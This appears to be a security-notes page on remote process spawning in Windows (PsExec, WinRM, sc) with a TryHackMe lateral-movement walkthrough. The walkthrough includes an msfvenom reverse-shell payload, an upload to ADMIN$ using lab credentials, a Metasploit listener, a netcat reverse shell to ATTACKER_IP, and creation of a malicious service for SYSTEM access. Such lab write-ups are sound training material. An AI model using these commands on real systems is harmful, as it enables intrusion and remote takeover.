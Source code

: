 # Spawning Processes Remotely

Here are some of the methods that attackers use to remotely spawn processes:

***

### <mark style="color:green;">Psexec</mark>

* **Ports:** 445/TCP (SMB)
* **Required Group Memberships:** Administrators

<figure><img src="../../../.gitbook/assets/image (310).png" alt=""><figcaption></figcaption></figure>

{% stepper %}
{% step %}
### Authentication

Attacker provides credentials to authenticate remote system
{% endstep %}

{% step %}
### SMB Connection

Psexec connects over SMB (TCP port 445)
{% endstep %}

{% step %}
### Service Creation

Psexec creates and executes `PSEXESVC.exe`  spawning a new service named PSEXESVC
{% endstep %}

{% step %}
### Command Execution

The new service runs with SYSTEM privileges and outputs to the attacker's machine
{% endstep %}
{% endstepper %}

The stdout, stdin and stderr are also managed by the created **Named Pipes**. A named pipe is a special file that allows for Inter-Process Communication (IPC) meaning two processes can **send and receive data** between each other.

The command below spawns a remote cmd:

```
psexec \\TARGET_IP -u Administrator -p Password cmd.exe
```

***

### <mark style="color:green;">WinRM</mark>

* **Ports:** 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
* **Required Group Memberships:** Remote Management Users

Windows Remote Management (WinRM) is a web-based protocol used to send Powershell commands to Windows hosts remotely. Most Windows Server installations will have WinRM enabled by default, making it an attractive attack vector.

Using Powershell:

```powershell
Invoke-Command -ComputerName TARGET -Credential Administrator -ScriptBlock { ipconfig }
```

Using Evil-WinRM:

```bash
evil-winrm -i TARGET -u Administrator -p password
```

***

### <mark style="color:green;">Sc</mark>

* **Ports:**
  * 135/TCP, 49152-65535/TCP (DCE/RPC)
  * 445/TCP (RPC over SMB Named Pipes)
  * 139/TCP (RPC over SMB Named Pipes)
* **Required Group Memberships:** Administrators

`sc` is a command that allows you to create, modify, start and stop Windows services and that includes remotely!

When `sc.exe` is used to manage services **on a remote machine**, it communicates with the **Service Control Manager (SVCCTL)** through **RPC (Remote Procedure Call)** in 2 way&#x73;**:**

{% tabs %}
{% tab title="DCE/RPC" %}
<figure><img src="../../../.gitbook/assets/image (312).png" alt=""><figcaption></figcaption></figure>

1. The client connects to Endpoint Mapper (EPM) and requests the `SVCCTL` service
2. EPM responds with the IP and dynamic port (49152-65535) where `SVCCTL` is listening
3. Client then connects to `SVCCTL` on that dynamic port
{% endtab %}

{% tab title="SMB named pipes" %}
<figure><img src="../../../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>

If lets say RPC is blocked by firewall, sc will try to reach `SVCCTL` through SMB named pipes, either on port 445 (SMB) or 139 (SMB over NetBIOS)
{% endtab %}
{% endtabs %}

The command below creates a service that opens Calculator:

```
sc \\TARGET create EvilService binPath= "cmd.exe /c calc.exe" start= auto
```

***

***

<figure><img src="../../../.gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>

## Task 1

We start at THMJMP2. The goal here is we need to move laterally to THMIIS using `sc.exe` by getting a reverse shell from a spawned process  and get the flag. Initial credentials are given (assume we captured with admin access)

User: `ZA.TRYHACKME.COM\t1_leonard.summers`

Password: `EZpass4ever`

***

First, Generate the payload using msfvenom

```bash
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -o service.exe
```

<figure><img src="../../../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>

`-f exe-service` > Makes the payload behave like a Windows service

Proceed to use the current user's credentials to upload the payload to the ADMIN$ share of THMIIS using `smbclient`

```bash
smbclient -c 'put service.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
```

<figure><img src="../../../.gitbook/assets/image (318).png" alt=""><figcaption></figcaption></figure>

`-c 'put mother.exe'` > Command to upload payload to share

`-W ZA` > Windows domain

Setup the listener to receive the reverse shell

```bash
msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT <ATTACKER_PORT>
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on <ATTACKER_IP>:<ATTACKER_PORT>
```

Now, we SSH into the initial setup where the credentials were given when setting up DNS.

<figure><img src="../../../.gitbook/assets/image (320).png" alt=""><figcaption></figcaption></figure>

Start a listener on another port

<figure><img src="../../../.gitbook/assets/image (322).png" alt=""><figcaption></figcaption></figure>

Now we `runas` to spawn a second shell from the user above using `t1_leonard.summers` access token

```
C:\> runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 1235"
```

<figure><img src="../../../.gitbook/assets/image (321).png" alt=""><figcaption></figcaption></figure>

We received a callback from the listener

<figure><img src="../../../.gitbook/assets/image (323).png" alt=""><figcaption></figcaption></figure>

Now create a service name with our payload and start it

```
C:\> sc.exe \\thmiis.za.tryhackme.com create <Service_Name> binPath= "%windir%\service.exe" start= auto
C:\> sc.exe \\thmiis.za.tryhackme.com start <Service_Name>
```

<figure><img src="../../../.gitbook/assets/image (324).png" alt=""><figcaption></figcaption></figure>

Our metasploit listener also received a callback but this time with SYSTEM privileges

<figure><img src="../../../.gitbook/assets/image (326).png" alt=""><figcaption></figcaption></figure>

Successful pivot from THMJMP2 to THMIIS

<figure><img src="../../../.gitbook/assets/image (328).png" alt=""><figcaption></figcaption></figure>

Flag in `t1_leonard.summers` ' Desktop

<figure><img src="../../../.gitbook/assets/image (327).png" alt=""><figcaption></figcaption></figure>
